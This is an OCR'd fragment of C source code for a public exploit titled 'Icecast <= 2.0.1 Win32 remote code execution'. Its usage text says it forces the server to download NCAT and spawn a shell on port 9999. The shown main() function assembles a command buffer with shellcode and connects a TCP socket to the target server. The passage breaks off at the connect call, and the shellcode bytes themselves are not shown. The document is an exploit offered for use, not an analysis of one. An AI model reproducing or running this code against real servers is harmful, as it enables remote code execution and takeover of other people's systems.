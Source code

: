     int main(int argc, char *argv[]) {
        struct sockaddr_in peer;
        int sd;
        u_short port = PORT;
        u_char buff[BUFFSZ];
        u_char buf[4096];
        u_char *pointer=NULL;

        setbuf(stdout, NULL);

        fputs("\n"
            "Icecast <= 2.0.1 Win32 remote code execution "VER"\n"
            "by Luigi Auriemma\n"
            "e-mail: aluigi@altervista.org\n"
            "web:http://aluigi.altervista.org\n"
      "\nshellcode add-on by Delikon\n"
      "www.delikon.de"
            "\n", stdout);

        if(argc < 2) {
            printf("\nUsage: %s <server> [port(%d)]\n"
                "\n"
                "Note: This exploit will force the Icecast server to download NCAT\n"
                "and after execution it will spwan a shell on 9999\n"
                "\n", argv[0], PORT);
            exit(1);
        }

    #ifdef WIN32
        WSADATA    wsadata;
        WSAStartup(MAKEWORD(1,0), &wsadata);
    #endif

        if(argc > 2) port = atoi(argv[2]);

        peer.sin_addr.s_addr = resolv(argv[1]);
        peer.sin_port= htons(port);
        peer.sin_family= AF_INET;

        memset(buf,0x00,sizeof(buf));
        strcpy(buf,EXEC);

    pointer =strrchr(buf,0xcc);

    strcpy(pointer,shellcode);

    strcat(buf,"\r\n");
    strcat(buf,"\r\n");


        printf("\n- target %s:%hu\n",
            inet_ntoa(peer.sin_addr), port);

        sd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if(sd < 0) std_err();

        if(connect(sd, (struct sockaddr *)&peer, sizeof(peer))
          < 0) std_err();
